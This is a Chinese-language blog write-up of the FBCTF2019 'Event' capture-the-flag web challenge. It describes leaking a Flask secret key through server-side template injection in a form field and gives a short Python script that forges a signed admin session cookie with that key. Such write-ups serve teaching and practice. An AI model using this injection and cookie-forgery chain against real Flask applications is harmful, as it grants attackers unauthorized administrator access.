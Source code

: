 ```yaml
---
title: '[FBCTF2019]Event'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/41414542.jpg'
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-01-29 15:07:17
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1127195.jpg
---
```


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210129150950.png)

随便注册个号（admin不行），试了下ssti不行。访问/flag需要admin的身份，所以寻找一下判断的标准是啥，首先抓包看下cookie之类的：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210129151206.png)

果然有，估计是要伪造user那里的东西，但是加密方式和密钥均未知。
卡住了，于是回头看之前那个可能是ssti的点，只有通过ssti读取密钥伪造cookie才有解，所以一定是存在ssti的。

通过测试，使用__class__或者__dict__在event_important处可以爆出相关内容

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210129153702.png)

得到密钥，接下来伪造就行了：

flask原理：json->zlib->base64后的源字符串 . 时间戳 . hmac签名信息

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210129155614.png)

exp：
    from flask import Flask
    from flask.sessions import SecureCookieSessionInterface
    
    app = Flask(__name__)
    app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'
    
    session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

    @app.route('/')
    def index():
        print(session_serializer.dumps("admin"))

    index()